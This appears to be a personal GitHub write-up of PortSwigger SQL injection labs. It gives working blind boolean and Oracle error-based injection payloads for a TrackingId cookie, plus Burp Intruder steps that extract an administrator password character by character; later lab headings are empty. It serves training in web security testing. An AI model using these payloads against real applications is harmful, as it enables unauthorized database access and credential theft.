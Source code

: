 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)
```
If there is Error, means the Query is getting processed by Server & We can give conditions to test for the payloads

TrackingId=3K2lIneuWTHL6FqO' Error
TrackingId=3K2lIneuWTHL6FqO'' No Error

'||(SELECT '')||' error
'||(SELECT '' from dual)||' No error (ORacle DB)

TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from Incorrect_table)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from users where ROWNUM=1)||'; No error means the `Users` table exists in DB

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Codition True, No Error with this.

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that there is a user named Administrator
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that the password Length is > 1

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>=20 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'; Confirms the Length is of 20 characters
```

- Use SUBSTR( string, start_position [, length ]) to check the password length
- Use Intruder's Sniper Attack type to fuzz the password by comparing each & every position from SUBSTR(password,1,1) to SUBSTR(password,20,1)
- Copy each letter from result if recieved Error 500, use the same to login after extracting all 20 letters.

```
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,20,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

hn8u07gig6zkt9947d47

- Now, login with extracted passsword.
```


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)



## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


